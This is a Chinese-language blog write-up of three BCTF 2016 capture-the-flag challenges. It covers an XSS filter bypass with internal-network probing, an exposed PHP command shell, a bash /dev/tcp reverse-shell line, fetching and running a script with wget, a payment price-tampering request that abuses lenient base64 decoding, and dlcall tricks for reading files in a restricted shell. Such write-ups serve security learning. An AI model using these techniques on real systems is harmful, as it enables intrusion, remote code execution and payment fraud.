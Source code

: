 ```yaml
---
id: 690
layout: post
title: 'bctf 部分writeup'
date: 2016-03-21 02:02:00
author: virusdefender
tags: 
---
```


又是一个和ctf一起度过的疲惫的周末。

QAQ
---
一个留言板，提交之后可以看到部分内容被过滤了，包括`on`、`script`、`img`等，最终发现`iframe`标签没被过滤，而且可以利用的是`src`和`srcdoc`属性，`srcdoc`使用html实体编码绕过。其中我遇到一个坑，就是开始认为`&`也被过滤了，而实际上是我没进行url编码，导致burp识别错误。

主办方的机器人一直不太稳定，第二天才真正的开始做这个题，xss探测结果是后台在`http://104.199.132.251/4dm1n/show.php`，cookies没啥用，页面源码也是只个列表，也没啥用。后来看到提示，说可以探测内网，想起使用webrtc，参考 http://www.wooyun.org/bugs/wooyun-2014-076685。


<!--more-->


payload见https://dl.dropboxusercontent.com/u/1878671/enumhosts.html，修改了代码，增加了回传ip信息。ip包括本机172.17.0.1，和三个192.168.1.x的，猜测就是192的了，但是使用js访问了一遍，都失败了，要不是不能访问，要不就是没设置跨域的http头。然后想起又访问了一遍172的内网，发现172.17.0.2是可以的，很高兴。

这个ip访问到的内容是

```php
<!--
header("Access-Control-Allow-Origin: *");
$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();
-->
```

没有回显，需要反弹shell，使用`bash -i >& /dev/tcp/ip/port 0>&1`的没反应，猜测是遇到了编码的坑，换用了wget一个python脚本然后执行，然后反弹就成功了。


zerodaystore
------------
给了一个安卓apk和一段server的Python代码，代码见 https://gist.github.com/virusdefender/9aec40d6ae73ead56429

安卓大致的逆向了一下，就觉得order和pay的url是有用的，其余没啥问题。问题应该在server上，需要修改price。

可控的位置是`androidID`，一般混淆也就是它的值设置为`123&price=-1`，但是这里会在循环中被实际的price覆盖掉。

后来在想到需要利用Python的base64解码的特点，

```python
In [4]: import base64

In [5]: base64.b64encode("xxxxxxxxxx")
Out[5]: 'eHh4eHh4eHh4eA=='

In [6]: base64.b64decode("eHh4eHh4eHh4eA==")
Out[6]: 'xxxxxxxxxx'

In [7]: base64.b64decode("eHh4eHh4eHh4eA==!")
Out[7]: 'xxxxxxxxxx'

In [8]: base64.b64decode("eHh4eHh4eHh4eA==!eHh4eHh4eHh4eA==")
Out[8]: 'xxxxxxxxxx'
```

这样把price放在最后面就可以了。

```python
print requests.post("http://paygate.godric.me/pay", data="orderID=12368911859&price=80000&productID=1&timestamp=1458482306973&signer=RSA&hash=sha256&nonce=733d2f88ea74af8a&sign=TzdQaIa7qT/tTb6UNvzl25irdxiFYOj3hq932Wdozzkazsj1cIpzEhE2mnrUewwnuG2lPGpulqdMTGgMJgsUYWrKxEjpk3EKnWukgASyfap9N9EcsgKw67/2wJ00o1Nxc098jTxurLnW2lBfSXNQySDI+M7o0NzD58nYq/Rjzl3NkYFlF+fTf+ZxejM0J+uZCDDi7BZoFhTpFXrV0OPso6Ltefb+o0ZvI6YcBULHRdOVIhzhhnkY68xTBI2ULAH0OEttDls7PlLZnEYYuT92oSr7Q38W6ilpe1EG27czkVCVbuK3AMvfwaLbQnajuOrNz+JumG7TdFSbkwl8Rfgarw==!&price=-1").content
```

验证代码取到的sign就是带有`!&price=-1`的，但是base64解码后还和原来的是一样的，而解析price的时候却会读取到最后一个price。

结果是`{"status": 4, "data": "BCTF{0DayL0veR1chGuy5}"}`

hsab
----
一开始需要跑一段hash，还是需要暴力，不过还是挺快的。

> I would like some proof of work. Send me a string starting with
> 'vfgckhse', no whitespace, of length <= 63, such that its sha256 in
> binary starts with 20 bits of zeros.

```python
from zio import *
from hashlib import sha256
import sys
from os import urandom

io = zio(('104.199.132.199', 2222))
io.read_until('starting with \'')
t = io.read_until('\'')[:-1]


while True:
    x = urandom(8).encode('hex')
    if sha256(t + x).hexdigest().startswith('00000'):
        io.write(t + x+'\n')
        break
```

之后发现里面很多命令都没有了，比如`ls`、`cat`等，包括`gcc`、`python`之类的。之后发现输入`help`可以看到所有的命令。

在网上找到`echo /tmp/*`就相当于`ls /tmp`，就这样找到了`/home/ctf/flag.ray`，但是没有cat，没法读文件。

尝试使用重定向符号，但是只有重定向到文件是好的，比如`echo 123 > 456`，而反向的话就会报语法错误。

后来使用`bash -v flag.ray`搞定了。不加参数的话，就是输出`.bashrc`的内容。


后来听说还可以用用`dlcall`，但是我从没见过，只有https://github.com/taviso/ctypes.sh/wiki上有些介绍，看样子和C语言语法很像，但是写起来很奇怪。最终的payload是

```python
io.write('dlcall -n file -r pointer fopen "/home/ctf/flag.ray" "r"\n')
io.write('dlcall -n content -r pointer malloc 128\n')
io.write('dlcall -n text fread $content 128 1 $file\n')
io.write('dlcall printf $text\n')
```